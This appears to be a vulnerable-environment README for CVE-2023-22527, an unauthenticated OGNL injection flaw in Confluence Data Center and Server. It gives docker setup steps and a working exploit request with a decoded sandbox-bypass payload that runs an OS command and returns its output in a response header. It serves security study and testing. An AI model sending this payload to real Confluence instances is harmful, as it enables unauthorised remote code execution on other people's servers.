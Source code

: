 # Confluence Pre-Auth Remote Code Execution via OGNL Injection (CVE-2023-22527)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

A OGNL injection vulnerability on versions (8.0 to 8.5.3) of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance.

References:

- <https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html>
- <https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/>

## Vulnerable Environment

Execute following command to start a Confluence Server 8.5.3:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](1.png)

## Exploit

Simplely send following request to execute arbitrary commands inside an craft OGNL expression and get the response:

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![](2.png)

After the version 7.18.0, Confluence introduced a `isSafeExpression` function to protect OGNL injection. Security researcher [Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/) find a way to bypass it through `#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`, the full decoded payloads are here:

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```
